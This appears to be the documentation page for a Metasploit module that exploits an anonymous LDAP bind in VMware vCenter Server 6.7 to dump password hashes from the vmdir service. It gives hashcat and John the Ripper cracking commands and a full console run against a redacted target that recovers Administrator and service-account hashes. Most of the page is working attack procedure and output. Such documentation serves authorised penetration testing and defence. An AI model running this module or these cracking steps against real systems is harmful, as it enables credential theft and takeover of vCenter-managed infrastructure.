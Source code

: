 ## Module vmware_vcenter_vmdir_ldap_dump_hashes

### Description

This module uses an anonymous-bind LDAP connection to dump password
hashes from the vmdir service in VMware vCenter Server version 6.7
prior to the 6.7U3f update.
For password cracking use:
```
hashcat -a 3 -m 1710 --user OUTPUT_HASHCAT_FILE
john -format='dynamic=sha512($p.$s)' OUTPUT_JOHN_FILE
```

### Setup

Tested in the wild. No setup notes available at this time, as setup will
be specific to target environment.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Actions

### Dump

Dump all LDAP password hashes (userPassword attribute) from the vCenter Server.

## Options

### BASE_DN

If you already have the LDAP base DN, you may set it in this option.

### ConnectTimeout

You may configure the timeout for LDAP connects if necessary. The
default is 10.0 seconds and should be more than sufficient.

## Scenarios

### VMware vCenter Server 6.7 virtual appliance on ESXi

```
msf5 > use auxiliary/gather/vmware_vcenter_vmdir_ldap_dump_hashes

msf5 auxiliary(auxiliary/gather/vmware_vcenter_vmdir_ldap_dump_hashes) > set rhosts [redacted]
rhosts => [redacted]
Module options (auxiliary/gather/vmware_vcenter_vmdir_ldap_dump_hashes):

   Name                 Current Setting    Required  Description
   ----                 ---------------    --------  -----------
   BASE_DN                                 no        LDAP base DN if you already have it
   OUTPUT_HASHCAT_FILE  vmdir_hashcat.txt  no        Save captured password hashes in hashcat format
   OUTPUT_JOHN_FILE     vmdir_john.txt     no        Save captured password hashes in john the ripper format
   RHOSTS               [redacted]         yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                389                yes       The target port

msf5 auxiliary(gather/vmware_vcenter_vmdir_ldap_dump_hashes) > run
[*] Running module against [redacted]

[*] Discovering base DN automatically
[*] Searching root DSE for base DN
[+] Discovered base DN: dc=vsphere,dc=local
[*] Dumping LDAP passwords from vmdir service at [redacted]:389
[+] [redacted]:389 cn=[redacted],ou=Domain Controllers,dc=vsphere,dc=local:[redacted]
[+] [redacted]:389 cn=Administrator,cn=Users,dc=vsphere,dc=local:[redacted]
[+] [redacted]:389 cn=vmca/[redacted]@VSPHERE.LOCAL,cn=Managed Service Accounts,dc=vsphere,dc=local:[redacted]
[+] [redacted]:389 cn=ldap/[redacted]@VSPHERE.LOCAL,cn=Managed Service Accounts,dc=vsphere,dc=local:[redacted]
[+] [redacted]:389 cn=host/[redacted]@VSPHERE.LOCAL,cn=Managed Service Accounts,dc=vsphere,dc=local:[redacted]
[*] Storing LDAP data in loot
[+] Saved LDAP data to /root/.msf4/loot/20200719171845_default_[redacted]_VMwarevCenterS_850962.txt
[*] Auxiliary module execution completed
msf5 auxiliary(gather/vmware_vcenter_vmdir_ldap_dump_hashes) >
```
